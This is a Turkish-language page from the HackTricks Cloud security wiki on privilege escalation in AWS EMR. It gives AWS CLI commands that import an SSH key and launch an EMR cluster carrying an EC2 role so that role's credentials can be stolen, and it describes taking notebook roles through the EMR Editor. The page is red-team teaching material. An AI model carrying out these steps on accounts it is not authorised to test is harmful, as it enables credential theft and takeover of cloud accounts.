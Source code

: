# AWS - EMR Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## EMR

Daha fazla **EMR hakkında bilgi** için:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

Bu izinlere sahip bir saldırgan, **EC2 rollerini ekleyerek yeni bir EMR kümesi çalıştırabilir** ve kimlik bilgilerini çalmaya çalışabilir.\
Bunu yapmak için, **hesaba ithal edilmiş bazı ssh özel anahtarlarını bilmeniz** veya bir tane ithal etmeniz ve **ana düğümde port 22'yi açabilmeniz** gerektiğini unutmayın (bunu `--ec2-attributes` içindeki `EmrManagedMasterSecurityGroup` ve/veya `ServiceAccessSecurityGroup` öznitelikleri ile yapabilirsiniz).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Not edin ki bir **EMR rolü** `--service-role` içinde belirtilirken, bir **ec2 rolü** `--ec2-attributes` içinde `InstanceProfile` olarak belirtilir. Ancak, bu teknik yalnızca EC2 rolü kimlik bilgilerini çalmaya izin verir (çünkü ssh üzerinden bağlanacaksınız) ama EMR IAM Rolü'nü çalmaz.

**Olası Etki:** Belirtilen EC2 hizmet rolüne privesc.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

Bu izinlerle bir saldırgan **AWS konsoluna** gidebilir, bir Notebook oluşturabilir ve IAM Rolünü çalmak için erişebilir.

{% hint style="danger" %}
Notebook örneğine bir IAM rolü eklesem de, testlerimde AWS yönetilen kimlik bilgilerini çalmayı başardığımı fark ettim ve IAM rolü ile ilgili kimlik bilgilerini çalamadım.
{% endhint %}

**Olası Etki:** AWS yönetilen rolüne privesc arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

Bu izinle bir saldırgan **Jupyter Notebook'a erişebilir ve ona bağlı IAM rolünü çalabilir**.\
Notebook'un URL'si `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
Notebook örneğine bir IAM rolü eklesem de, testlerimde AWS yönetilen kimlik bilgilerini çalmayı başardığımı fark ettim ve IAM rolü ile ilgili kimlik bilgilerini çalamadım.
{% endhint %}

**Olası Etki:** AWS yönetilen rolüne privesc arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

